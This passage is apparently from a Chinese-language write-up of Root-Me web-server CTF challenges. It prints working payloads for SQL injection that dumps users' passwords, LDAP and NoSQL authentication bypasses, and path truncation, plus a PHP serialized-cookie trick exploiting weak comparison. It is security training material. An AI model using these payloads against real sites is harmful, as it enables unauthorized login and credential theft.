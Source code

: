 > recherche=1' union select 1,name FROM sqlite_master where tpye='table'--+
recherche=1' union select 1,sql FROM sqlite_master where type='table' --+
recherche=1' union select username,password FROM users  --+


## 34.LDAP injection - authentication
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch25/](http://challenge01.root-me.org/web-serveur/ch25/ "http://challenge01.root-me.org/web-serveur/ch25/")
\[+]Statement:绕过验证
\[+]Solution:根据题目提示为LDAP注入，LDAP是一种轻量级目录协议，主要用于资源查询。输入 username=*)(%26\&password=111发现页面报错，并给出了查询的结构，根据给出查询结构，构造Payload，即可绕过
\[+]Payload:username=*)(|(userPassword= \*\&password=1)

## 35.NoSQL injection - authentication
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch38/](http://challenge01.root-me.org/web-serveur/ch38/ "http://challenge01.root-me.org/web-serveur/ch38/")
\[+]Statement:找到隐藏用户的用户名
\[+]Solution:题目提示NoSQL注入，查询资料了解mongodb的基本命令和注入方法。了解到\$ne为!=符号，构造payload可以形成重言式注入。构造Payload如下: &#x20;

> login[\$ne]=123&pass[$ne]=123

它在服务器端会被解释为{‘login’=>{‘$ne’=>’123’},’pass’=>{‘$ne’=>’123’}}，从单一目标查询变成了条件查询，形成永真式。此时页面返回You are connected as:admin。并没有给出flag。于是更改Payload如下： &#x20;

> login[\$ne]=admin&pass[$ne]=123


页面此时返回You are connected as:test。这个用户也不是隐藏用户。于是使用mongodb的正则表达式筛选非admin或者test用户。Payload如下 &#x20;

> login[\$regex]=\^[^(a|t)]&pass[$ne]=1


即可得到flag。

## 36.Path Truncation
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch35/](http://challenge01.root-me.org/web-serveur/ch35/ "http://challenge01.root-me.org/web-serveur/ch35/")
\[+]Statement:获取进入管理员空间的方法
\[+]Solution:根据提示得知是路径截断，结合PHP limit提示，查询资料得知在

> page=a/../admin.html/./././././././././././././././././././
> 
## 37.PHP Serialization
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch28/](http://challenge01.root-me.org/web-serveur/ch28/ "http://challenge01.root-me.org/web-serveur/ch28/")
\[+]Statement:获取管理员的访问权限
\[+]Solution:可以看到源码，分析源码逻辑。最终目的是要使\$_SESSION[‘login’]=admin。其中关键变量\$data有两种赋值方式，一种是通过传入的POST参数赋值，另一种是从cookie里的autologin的值反序列化得到。下面的验证逻辑是比较\$data[‘password’]\==\$auth\[\$data[‘login’]],后者的值应该为一个字符串，而这里可以里用==的弱类型比较，使$data\[‘password’]的值为true，即可绕过比较。因此构造php页面如下 &#x20;

```
<?php
$data['login']='superadmin';
$data['password']=true;
echo(urlencode(serialize($data)));
?>
```
